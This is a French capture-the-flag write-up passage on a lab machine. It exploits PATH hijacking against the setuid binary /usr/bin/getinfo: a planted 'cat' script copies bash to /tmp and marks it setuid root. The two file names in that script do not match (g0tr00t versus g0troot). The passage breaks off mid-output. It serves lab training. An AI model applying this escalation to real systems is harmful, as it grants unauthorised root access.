 Smooth Operator
---------------

Robert fait partie du clan *operators* : *uid=1000(robertj) gid=1000(robertj) groups=1000(robertj),1001(operators)*  

Voyons voir les fichiers pour ce groupe :  

```plain
robertj@driftingblues:~$ find / -group operators 2> /dev/null  
/usr/bin/getinfo 
robertj@driftingblues:~$ file /usr/bin/getinfo 
/usr/bin/getinfo: setuid, setgid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=50c270711d2a2d6c688d5c498e50a3d38b4f7ff5, for
 GNU/Linux 3.2.0, not stripped
```

Ce binaire est setuid root et lisible mais la commande strings n'étant pas présente je m'en remet à hexdump pour voir les potentielles chaines intéressantes dans l'exécutable :  

```plain
robertj@driftingblues:~$ hexdump -C /usr/bin/getinfo
--- snip ---
00002010  23 23 23 23 23 23 23 23  23 23 23 0a 69 70 20 61  |###########.ip a| 
00002020  64 64 72 65 73 73 0a 23  23 23 23 23 23 23 23 23  |ddress.#########| 
00002030  23 23 23 23 23 23 23 23  23 23 0a 00 69 70 20 61  |##########..ip a| 
00002040  00 00 00 00 00 00 00 00  23 23 23 23 23 23 23 23  |........########| 
00002050  23 23 23 23 23 23 23 23  23 23 23 0a 68 6f 73 74  |###########.host| 
00002060  73 0a 23 23 23 23 23 23  23 23 23 23 23 23 23 23  |s.##############| 
00002070  23 23 23 23 23 0a 00 63  61 74 20 2f 65 74 63 2f  |#####..cat /etc/| 
00002080  68 6f 73 74 73 00 00 00  23 23 23 23 23 23 23 23  |hosts...########| 
00002090  23 23 23 23 23 23 23 23  23 23 23 0a 6f 73 20 69  |###########.os i| 
000020a0  6e 66 6f 0a 23 23 23 23  23 23 23 23 23 23 23 23  |nfo.############| 
000020b0  23 23 23 23 23 23 23 0a  00 75 6e 61 6d 65 20 2d  |#######..uname -| 
000020c0  61 00 00 00 01 1b 03 3b  38 00 00 00 06 00 00 00  |a......;8.......|
--- snip ---
```

On est dans un scénario classique d'exploitation du PATH. Comme le binaire va chercher à exécuter la commande *cat* on va placer sur son chemin un exécutable du même nom qui sera exécuté à la place de celui attendu :  

```plain
robertj@driftingblues:~$ cat cat 
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0troot
robertj@driftingblues:~$ chmod 755 cat 
robertj@driftingblues:~$ export PATH=.:$PATH 
robertj@driftingblues:~$ /usr/bin/getinfo
################### 
ip address 
################### 

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00 
    inet 127.0.0.1/8 scope host lo 
       valid_lft forever preferred_lft forever 
    inet6 ::1/128 scope host  
       valid_lft forever preferred_lft forever 
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UNKNOWN group default qlen 1000 
    link/ether 08:00:27:93:56:19 brd ff:ff:ff:ff:ff:ff 
    inet 192.168.56.8/24 brd 192.168.56.255 scope global dynamic enp0s3 
       valid_lft 407sec preferred_lft 407sec 
    inet6 fe80::a00:27ff:fe93:5619/64 scope link  
```